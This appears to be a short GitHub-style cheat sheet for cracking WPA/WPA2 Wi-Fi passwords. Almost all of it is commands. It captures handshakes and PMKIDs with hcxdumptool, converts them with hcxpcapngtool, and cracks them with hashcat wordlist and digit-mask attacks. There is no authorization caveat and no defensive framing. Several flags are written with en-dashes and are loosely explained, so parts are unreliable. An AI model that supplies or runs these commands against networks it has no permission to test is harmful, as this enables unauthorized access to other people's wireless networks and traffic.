 # Attacking WAP and WAP2 Wireless Networks Using Hcxdumptool and Hashcat

## Installation

Hcxdumptool

`sudo apt-get install hcxdumptool`

Hashcat

`sudo apt-get install hashcat`

## Commands

```
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service
```

sudo hcxdumptool -i wlan0 -o dumpfile.pcapng –active_beacon –enable_status=15


```
sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service
```


```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

- "-i wlan0" specifies the wireless interface to use for capturing traffic. In this case, it's "wlan0".
- "-o dumpfile.pcapng" specifies the output file name and format for the captured traffic. In this case, it's "dumpfile.pcapng".
- "-active_beacon" enables active beacon monitoring, which means that hcxdumptool will send out probe requests to nearby access points and capture their responses.
- "-enable_status=15" enables additional information in the captured packets, including information about the access points and stations.


## Cracking

Wordlist attack with hashcat on Linux

```
hashcat -m 22000 hash.hc22000 wordlist.txt
```


Mask attack with hashcat on Windows

```
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat.exe -m 22000 hash.hc22000 -a 3 –increment –increment-min 8 –increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d 

```

Tutorial https://www.youtube.com/watch?v=Usw0IlGbkC4&ab_channel=DavidBombal
